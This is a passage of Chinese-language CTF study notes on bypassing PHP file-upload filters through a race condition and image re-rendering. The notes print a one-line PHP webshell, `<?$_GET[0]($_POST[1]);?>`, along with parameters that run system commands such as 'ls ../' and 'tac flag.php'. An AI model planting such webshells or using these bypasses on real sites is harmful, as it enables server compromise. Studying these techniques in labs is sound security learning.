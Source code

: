 ![image-20250822183209274](assets/image-20250822183209274.png)

就是说不断上传，不断访问，访问到了就会创建一个xiao.php



## 二次渲染

判断：

1、判断上传前后文件大小

2、判断上传后的文件返回数据包的内容

手工绕过：

010editor可以对比前后两个文件，要在两个文件中相同的地方写一句话木马

脚本绕过：

https://blog.csdn.net/qq_40800734/article/details/105920149

**关于png的二次渲染绕过：**

本地127.0.0.1有一个code.php 访问就会生成1.png

木马的内容是`<?$_GET[0]($_POST[1]);?>`

get传参` 0=system` post传参`1=ls ../` `1=tac flag.php`

前提是能执行png中的php

**关于jpg的二次渲染绕过：**

脚本在D:\phpStudy\PHPTutorial\php\php-5.2.17>  jpg.php

脚本中的后门代码要根据需要修改

![image-20250822222549980](assets/image-20250822222549980.png)

生成了payload_image.jpg



## move_uploaded_file函数的缺陷
